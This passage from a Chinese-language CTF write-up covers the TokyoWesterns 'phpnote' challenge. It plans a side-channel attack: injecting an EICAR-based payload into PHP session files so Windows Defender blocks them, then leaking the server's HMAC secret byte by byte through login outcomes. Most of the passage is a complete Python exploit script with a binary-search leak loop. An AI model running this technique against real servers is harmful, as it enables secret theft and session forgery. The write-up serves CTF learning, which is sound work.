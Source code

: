 可知secret只与nickname有关。但是我们没法攻击hmac函数来获得secret。在看了一圈之后，我们发现服务器是IIS的：

```
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.9
```

结合前文所述攻击手法，整理思路如下：

1. PHP的session储存在文件系统中
2. 向session中注入恶意内容让Windows Defender屏蔽生成的session文件
3. 通过能否登录成功，我们可以逐字节泄露secret。

仿照Gyotaku的攻击脚本我们很容易写出exp：

``` php
#!/usr/bin/env python3

import requests

CHAL_URL = "http://phpnote.chal.ctf.westerns.tokyo/"
TEST_URL = "http://192.168.21.132/"

def trigger(c, idx, payload=''):
    sess = requests.Session()
    import string
    payload = '''--!><html><head><script>f=function(n){eval('X5O!P%@AP[4\\\\PZX54(P^)7CC)7}$$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$$H+H'+{${c}:'*'}[Math.min(${c},n)])};f(document.body.innerHTML[${idx}].charCodeAt(0));</script></head><body>'''
    payload = string.Template(payload).substitute({'idx': idx, 'c': c})
    d1 = {
        "nickname": "",
        "realname": payload,
    }
    resp = sess.post(CHAL_URL + "?action=login", data=d1)
    d = {
        "nickname": "1</body>",
        "realname": payload,
    }
    resp = sess.post(CHAL_URL + "?action=login", data=d)
    resp = sess.get(CHAL_URL + "?action=index")
    # print(sess.cookies)
    return "logout" not in resp.text

def leak(idx):
    l, h = 0, 0x100
    while h - l > 1:
        m = (h + l) // 2
        res = trigger(m, idx)
        if res:
            l = m
        else:
            h = m
    return chr(l)

data = ""
for i in range(13,100):
    data += leak(i)
    print(data)
```
